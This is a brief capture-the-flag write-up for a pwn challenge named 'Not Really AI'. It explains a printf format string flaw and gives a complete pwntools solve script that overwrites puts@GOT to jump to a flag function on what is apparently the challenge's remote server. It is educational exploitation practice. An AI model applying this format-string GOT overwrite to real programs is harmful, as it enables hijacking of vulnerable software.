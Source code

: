 # Not Really AI
A pwn challenge. Just a simple format string exploit.

Protections: Partial RELRO, no PIE, we can overwrite the GOT

When our input is asked for, it is printed out using printf without proper format strings.

Our input is put on the stack, so the program is vulnerable to arbtirary writes via `%n`.

There's no buffer overflow, and only one input, so we shouldn't be leaking anything.

We can send a simple format string overwrite payload to rewrite puts@GOT with the address of the function flaggy, and the flag will be yours.

Here is the solve script:
```python
from pwn import *
e = ELF("./nra")
def getproc():
    return remote('95.216.233.106',43941)
    #return e.process()
def write_fmt(string):
    p = getproc()
    p.sendline(string)
    p.recvline()
    out = p.recv()
    p.close()
    return out
auto = FmtStr(execute_fmt=write_fmt)
writes = {e.got['puts']: e.sym['flaggy']}
payload = fmtstr.fmtstr_payload(auto.offset, writes)
p = getproc()
p.sendline(payload)
p.interactive()
```
